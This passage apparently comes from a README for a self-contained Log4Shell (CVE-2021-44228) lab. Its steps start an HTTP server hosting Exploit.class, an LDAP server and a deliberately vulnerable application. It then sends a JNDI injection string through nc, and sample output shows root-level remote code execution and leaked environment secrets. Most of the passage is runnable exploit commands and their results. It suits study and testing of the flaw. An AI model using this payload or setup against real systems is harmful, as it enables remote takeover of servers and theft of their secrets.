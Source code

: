 #### Step 3: Start the HTTP Server
```bash
make http-server
# Or manually: cd exploit && python3 -m http.server 8888
```

**Test it:**
```bash
curl -I http://localhost:8888/Exploit.class
# Should return: HTTP/1.0 200 OK
```

#### Step 4: Start the LDAP Server
```bash
make ldap-server
# Auto-detects your IP address
# Or specify: HOST_IP=192.168.1.100 make ldap-server
```

You should see:
```
Listening on 0.0.0.0:1389
```

#### Step 5: Run the Vulnerable Application
```bash
make vulnerable-server
```

You should see:
```
Vulnerable server listening on port 8080
```

#### Step 6: Exploit the Vulnerability
```bash
make test-exploit
# Sends the payload and automatically waits 3 seconds
# Then run verify to check results
```

**Manual alternative:**
```bash
echo '${jndi:ldap://192.168.1.100:1389/Exploit}' | nc localhost 8080
```

#### Step 7: Verify Success
```bash
make verify
# Should run immediately after test-exploit
```

Expected output shows **full Remote Code Execution**:
```
╔════════════════════════════════════════════════════════════════╗
║   REMOTE CODE EXECUTION ACHIEVED VIA LOG4SHELL (CVE-2021-44228) ║
╚════════════════════════════════════════════════════════════════╝

=== IDENTITY & PRIVILEGES ===
Current User: root
uid=0(root) gid=0(root) groups=0(root)

=== FILE SYSTEM ACCESS ===
Environment Variables (including secrets):
SECRET_VALUE=if you can read this this code is vulnerable

=== NETWORK INFORMATION ===
Hostname: ibm
Network Interfaces: [full network config]
```